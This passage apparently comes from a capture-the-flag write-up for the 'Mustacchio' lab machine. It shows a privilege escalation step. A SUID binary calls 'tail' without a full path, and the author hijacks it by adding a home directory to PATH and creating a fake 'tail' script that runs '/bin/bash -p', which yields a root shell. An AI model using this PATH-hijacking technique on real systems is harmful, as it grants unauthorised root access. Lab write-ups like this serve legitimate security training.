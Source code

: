 ```bash
Live Nginx Log Reader
tail -f /var/log/nginx/access.log
:*3$"
GCC: (Ubuntu 9.3.0-17ubuntu1~20.04) 9.3.0
...
```

It called tail, without providing the full path. So if I created an executable file called `tail` that was in my PATH, it would get executed as root. 

```bash
barry@mustacchio:~$  export PATH=/home/barry/:$PATH

barry@mustacchio:~$ cat tail
#!/bin/bash
/bin/bash -p

barry@mustacchio:~$ chmod +x tail
```

With the file created and in my PATH, when I ran live_log, my file was executed and I had a shell as root.

```bash
barry@mustacchio:~$ /home/joe/live_log 

root@mustacchio:~# whoami
root

root@mustacchio:~# cat /root/root.txt 
REDACTED
```
